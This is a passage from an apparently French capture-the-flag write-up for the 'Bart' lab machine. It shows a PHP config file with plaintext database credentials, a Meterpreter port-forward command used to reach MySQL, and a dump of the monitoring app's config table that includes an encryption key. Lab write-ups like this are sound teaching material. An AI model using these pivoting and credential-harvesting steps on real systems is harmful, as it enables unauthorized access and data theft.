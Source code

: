 ```php
define('PSM_DB_HOST', 'localhost');
define('PSM_DB_PORT', '3306');
define('PSM_DB_NAME', 'sysmon');
define('PSM_DB_USER', 'daniel');
define('PSM_DB_PASS', '?St4r1ng1sCr33py?');
define('PSM_DB_PREFIX', '_');
define('PSM_BASE_URL', 'http://monitor.bart.htb');
```

Après la mise en place d'une redirection de ports depuis le Meterpreter :  

```plain
meterpreter > portfwd add -L 127.0.0.1 -l 3306 -p 3306 -r 127.0.0.1
[*] Local TCP relay created: 127.0.0.1:3306 <-> 127.0.0.1:3306
```

J'ai pu me connecter avec les identifiants MySQL pour fouiller d'avantage :  

```plain
MySQL [sysmon]> select * from _config;
+----------------------+------------------------------------------+
| key                  | value                                    |
+----------------------+------------------------------------------+
| language             | en_US                                    |
| proxy                | 0                                        |
| proxy_url            |                                          |
| proxy_user           |                                          |
| proxy_password       |                                          |
| email_status         | 1                                        |
| email_from_email     | monitor@bart.htb                         |
| email_from_name      | Server Monitor                           |
| email_smtp           | 0                                        |
| email_smtp_host      |                                          |
| email_smtp_port      |                                          |
| email_smtp_security  |                                          |
| email_smtp_username  |                                          |
| email_smtp_password  |                                          |
| sms_status           | 0                                        |
| sms_gateway          | mollie                                   |
| sms_gateway_username | username                                 |
| sms_gateway_password | password                                 |
| sms_from             | 1234567890                               |
| pushover_status      | 0                                        |
| pushover_api_token   |                                          |
| password_encrypt_key | 350b1e56356d48c12a70c6787e4db75585a3bbe9 |
| alert_type           | status                                   |
| log_status           | 1                                        |
| log_email            | 1                                        |
| log_sms              | 1                                        |
| log_pushover         | 1                                        |
| log_retention_period | 365                                      |
| version              | 3.2.1                                    |
| version_update_check | 3.2.0                                    |
| auto_refresh_servers | 0                                        |
| show_update          | 1                                        |
| last_update_check    | 1524802739                               |
| cron_running         | 0                                        |
| cron_running_time    | 0                                        |
+----------------------+------------------------------------------+
35 rows in set (0.10 sec)
```
